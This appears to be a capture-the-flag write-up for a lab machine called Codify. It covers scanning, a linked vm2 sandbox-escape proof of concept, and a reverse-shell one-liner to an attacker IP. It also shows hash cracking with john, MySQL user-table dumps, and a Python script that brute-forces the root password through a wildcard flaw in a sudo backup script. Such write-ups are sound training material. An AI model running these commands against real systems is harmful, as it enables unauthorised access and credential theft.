# Codify

## Nmap

```bash
nmap -sC -sV -vv -p- -oN nmap/full $target
```

## Homepage







About us mentions a library `Vm2`

[PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) for `Sandbox Escape in vm2@3.9.16`



As we now have an operational command execution let's get ourselves a shell.

```bash
bash -c "sh -i >& /dev/tcp/10.10.14.139/4544 0>&1
```



We'd like a stable shell first:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
^Z
stty raw -echo && fg
export TERM=xterm
```

```bash
find / -type d -perm /u+rx 2>/dev/null | grep -v /sys | grep -v /dev | grep -v /usr | grep -v /etc | grep -v /srv | grep -v /proc | grep -v /var | grep -v /run | grep -v /boot
```


by not wrapping `$USER_PASS` we can insert wildcards `*`



Although this is a nice find and we can provide wildcard in the prompt we still need a different user to launch the script, since we're prompted a user password.


Strings reveals a hash



```bash
john hash -w=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

```bash
ssh joshua@$target
```


We can explore the db one line at a time just by providing joshua's password

```bash
mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "use mysql; select * from user;"
```



```bash
mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "use mysql; Select * from user;"
```



By doing only this we can find `mysql-sha1` hashes, unfortunately root's hash isn't crackable so we'll need to resort to bruteforcing anyway. 



As the wildcard always returns True we can bruteforce the password by appending the end of the bruteforced passwd with `*`

```python
import string
import subprocess

all_chars = list(string.ascii_letters + string.digits)
passwd = ""
fail = False

while not fail:
        for char in all_chars:
                command = f"echo '{passwd}{char}*' | sudo /opt/scripts/mysql-backup.sh"
                out = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, text=True).stdout
                if "confirmed" in out:
                        passwd += char
                        print(f"\r{passwd}", end='')
                        break
        else:
                fail = True
                print()
```


```bash
su root
```




